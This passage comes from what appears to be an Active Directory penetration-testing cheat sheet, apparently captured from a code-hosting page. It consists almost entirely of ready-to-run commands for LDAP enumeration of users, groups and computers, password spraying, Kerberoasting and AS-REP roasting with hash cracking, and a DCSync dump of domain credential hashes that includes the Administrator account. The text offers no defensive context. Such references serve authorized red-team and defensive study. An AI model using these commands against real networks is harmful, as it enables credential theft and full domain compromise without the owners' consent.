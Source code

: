 ### LDAP Enumeration

```bash
# User Enumeration
ldapsearch -x -h target-ip -b "DC=domain,DC=com" "(objectClass=user)" | grep sAMAccountName

# Group Enumeration
ldapsearch -x -h target-ip -b "DC=domain,DC=com" "(objectClass=group)" | grep cn:

# Computer Enumeration
ldapsearch -x -h target-ip -b "DC=domain,DC=com" "(objectClass=computer)" | grep dNSHostName
```

---

## 🔓 Authentication Attacks

### Password Spraying

```bash
# Spray Attack
crackmapexec smb targets.txt -u users.txt -p 'Password123!' --continue-on-success

# Kerbrute Password Spray
kerbrute passwordspray -d domain.com users.txt 'Password123!'
```

### Kerberoasting

```bash
# Request Service Tickets
python3 GetUserSPNs.py -request -dc-ip dc-ip domain.com/username:password

# Crack with Hashcat
hashcat -m 13100 kerberoast.hash rockyou.txt
```

### ASREPRoasting

```bash
# Find Users with Pre-auth Disabled
python3 GetNPUsers.py -dc-ip dc-ip -request domain.com/

# Crack ASREPRoast Hashes
hashcat -m 18200 asreproast.hash rockyou.txt
```

### DCSync Attack

```bash
# Dump Domain Hashes
python3 secretsdump.py -just-dc domain.com/username:password@dc-ip

# Specific User Hash
python3 secretsdump.py -just-dc-user Administrator domain.com/username:password@dc-ip
```

---
